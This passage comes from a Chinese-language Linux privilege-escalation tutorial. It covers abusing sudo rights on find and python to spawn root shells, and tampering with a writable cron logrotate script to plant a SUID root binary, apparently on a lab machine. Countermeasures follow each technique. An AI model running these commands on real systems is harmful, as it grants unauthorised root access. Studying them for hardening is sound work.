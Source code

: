 

$ sudo -l
打印允许我们作为sudo运行的命令

我们可以运行find,cat和python作为SUDO。这些命令在使用SUDO运行时将作为 root运行。如果我们能以某种方式通过这些命令来获取shell, 我们就可以获得 root访问权。

$ sudo find /home -exec sh -i \;
查找命令的exec参数可用于任意代码执行。




从不给任何编程语言编译器、解释程序和编辑器赋予SUDO权限。
这种技术也可以应用到 vi,more,less,perl,ruby,gdb和其他。
$ sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
产生一个shell

不要给任何程序sudo的权利。
永远不要把SUDO权利给vi,more,less,perl,ruby,gdb,nmap,python或其他程序。





5. 利用配置糟糕的CRON任务

如果未正确配置Cron,则可以利用它获取根权限。

cron 作业中有可写的任何脚本或二进制文件？
我们可以写cron文件本身。
cron目录可写吗？
Cron通常以root权限运行。如果我们可以成功篡改在cron作业中定义的任何脚本或二进制文件,那么我们可以使用root权限执行任意代码。



$ ls -la /etc/cron.d打印已在cron中存在的cron任务

$ find / -perm -2 -type f 2>/dev/null打印可写文件
$ ls -la /usr/local/sbin/cron-logrotate.sh让我们来确认一下cron logrotate.sh是否任意用户可写。


lograte 是可写的,它正在由logrotate cronjob运行。我们在lograte中写入/追加的任何命令都将作为"root"执行。
我们在/tmp目录中编写一个C文件并编译它。
$ ls rootme -它告诉我们它是由用户 "SHayslett" 所拥有的


$ echo “chown root:root /tmp/rootme; chmod u+s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh这将将可执行文件的所有者和组更改为 root 用户。它还将设置 SUID 位。
$ ls -la rootme 在5分钟后,logrotate cronjob运行, 并且cron logrotate.sh得到了root的执行。
$ ./rootme -生成root shell。




对策

在cron作业中定义的任何脚本或二进制文件都不应是可写的。
cron文件不应由除 root用户以外的任何人写入。
除root用户之外, 其他任何人都不应写入cron目录。




6. 利用在PATH中有"."的用户
在您的路径中有 "." 意味着用户能够从当前目录中执行二进制/脚本。为了避免每次都要输入这两个额外的字符,用户将"."添加到他们的路径中。这可能是攻击者提权的绝佳方法。
